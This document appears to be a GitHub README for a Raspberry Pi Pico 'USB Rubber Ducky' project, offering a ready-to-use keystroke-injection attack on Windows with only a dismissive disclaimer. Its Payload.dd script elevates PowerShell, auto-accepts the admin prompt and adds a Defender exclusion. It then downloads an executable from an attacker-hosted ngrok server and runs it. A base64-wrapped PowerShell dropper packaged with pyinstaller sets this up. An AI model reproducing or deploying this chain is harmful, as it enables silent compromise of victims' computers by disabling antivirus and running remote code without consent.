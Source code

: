 # USB Ducky

## Description

A USB Rubber Ducky is a device that looks like an ordinary USB flash drive but is actually a small computer that can very quickly execute a pre-programmed series of commands on a computer. It is usually used to execute many commands on a computer in a short time without requiring user interaction.

# You better use it at your own risk and I'm not responsible for any damage bla bla bla...

### First clone the repro.

```bash
git clone https://github.com/un9nplayer/USB-Ducky.git
cd USB-Ducky
```

 I hope you guys using this device called pi pico: https://amzn.in/d/jh3Ejsa
 
<img src="https://raw.githubusercontent.com/un9nplayer/USB-Ducky/main/img/pi%20pico.jpg" alt="img" width="500" height="500"/>

Setup your USB here check the video: [Network Chuck](https://www.youtube.com/watch?v=e_f9p-_JWZw)

## Main guide

You can create your own payloads by changing the Window.py file here: Inject your base64 data "Write-Host 'Hello, Im @Un9nplayer!!!' -ForegroundColor Red; pause"

````bash
import subprocess
import base64

u_c = "V3JpdGUtSG9zdCAnSGVsbG8sIEltIEBVbjlucGxheWVyISEhJyAtRm9yZWdyb3VuZENvbG9yIFJlZDsgcGF1c2U="
de_c = base64.b64decode(u_c).decode('utf-8')

subprocess.call(["powershell", "-Command", de_c])
````

### Convert the Window.py to Window.exe:
````bash
pip install pyinstaller
pyinstaller --onefile Window.py
````
Find the dist dir with Window.exe.


### Check Payload.dd file changes the {your-hosted-web-server} where you host the "Window.exe" file.

````
GUI r
DELAY 1000
STRING powershell 
ENTER
DELAY 1000
STRING Start-Process powershell.exe -ArgumentList "-NoProfile -ExecutionPolicy Bypass -Command `"& {Add-MpPreference -ExclusionPath 'C:\win'; Start-Sleep -Seconds 0;}`"" -Verb RunAs
ENTER
DELAY 1000
ALT y
DELAY 1500
STRING cd / ; mkdir win ; cd win ; echo (wget 'https://{your-hosted-web-server}/Window.exe' -OutFile Window.exe) > b.ps1 ; powershell -ExecutionPolicy ByPass -File b.ps1
ENTER
DELAY 5000
STRING Start-Process -FilePath ".\Window.exe"
ENTER

````


### Now host the Window.exe
````bash
ngrok http --domain=longhorn-discrete-flamingo.ngrok-free.app 80

On new teb

Python3 -m http.server 80 
````

Final URL: https://longhorn-discrete-flamingo.ngrok-free.app/Window.exe

## Here check the Video:



